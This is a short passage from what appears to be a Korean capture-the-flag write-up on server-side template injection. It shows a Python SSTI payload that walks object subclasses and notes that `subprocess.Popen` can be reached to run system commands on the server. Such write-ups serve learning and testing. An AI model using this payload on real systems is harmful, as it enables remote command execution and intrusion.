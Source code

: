시스템 명령을 실행할 수 있는 클래스들임

|

![8.1 SSTI - server flag 9](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_9.png)

현재 사용할 수 있는 클래스는 `subprocess.Popen`임

|

```python
"".__class__.__mro__[1].__subclasses__()[330:]
```

![8.1 SSTI - server flag 10](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_10.png)
